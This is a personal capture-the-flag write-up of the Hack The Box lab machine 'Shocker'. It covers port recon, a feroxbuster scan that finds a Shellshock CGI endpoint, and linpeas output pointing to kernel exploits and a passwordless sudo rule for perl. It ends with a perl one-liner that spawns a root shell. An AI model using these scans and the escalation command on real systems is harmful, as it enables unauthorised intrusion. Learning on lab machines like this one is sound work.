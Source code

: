 # Shocker

## Recon
Only 2 ports exposed  
- 2222: ssh
- 80: apache webserver

The running version of SSH doesn't have any public exploits, so it seems pretty obvious the target will be a website for this challenge.

## Enumeration
Nothing stood out from the scanning docs. I had to step back and really ask myself some fundamental questions to move forward on this one.

#### What does it do?

I've only been able to see the homepage `index.html` which appears to be a static page with a picture of a bug about to squash itself.

#### What language is it written in?

Based on some feroxbuster output (403 errors) the site seems to have the following filetypes `aspx`, `asp`, `jsp`, `php`.

#### What server software is the application running on?

Apache httpd 2.4.18 (Ubuntu)

### Getting help
I peaked at the walkthrough because I was lost.
No shocker - this machine was built to practice shellshock.  

On apache, the `cgi-bin` folder contains scripts. The scripts are accessed via web, run server side, then returned with an HTTP reply. Shellshock provides input that hijacks the server-side shell run. I also saw in the walkthrough that the target script is `/cgi-bin/user.sh`. 

But I want to prove this with a scan.

### fuzzing for shellshock
Found a shellshock endpoint by running
```bash
feroxbuster -u http://10.10.10.56:80/cgi-bin/ -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "sh" -v -k -n -o /home/nate/hackthebox/shocker/results/scans/tcp80/tcp_80_http_feroxbuster_cgi-bin.txt
```
![[Pasted image 20220106200355.png]]

## Exploitation

![[Pasted image 20220106202024.png]]

![[Pasted image 20220106204959.png]]

I was able to get user.txt but not enough privs for root.txt

## Privilege Escalation

### Linpeas findings

> Sudo version 1.8.16

> ╔══════════╣ Executing Linux Exploit Suggester 2  
> ╚ https://github.com/jondonas/linux-exploit-suggester-2  
>   
> [1] af_packet  
> 	CVE-2016-8655  
> 	Source: http://www.exploit-db.com/exploits/40871  
> [2] exploit_x  
> 	CVE-2018-14665  
> 	Source: http://www.exploit-db.com/exploits/45697  
> [3] get_rekt  
> 	CVE-2017-16695  
> 	Source: http://www.exploit-db.com/exploits/45010  

> ╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
> ╚https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
> Matching Defaults entries for shelly on Shocker:  
> env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
> 
> User shelly may run the following commands on Shocker:  
> (root) NOPASSWD: /usr/bin/perl 

Might be able to use the following from GTFO bins to get root.
```
sudo perl -e 'exec "/bin/sh";'
```

![[Pasted image 20220106210114.png]]
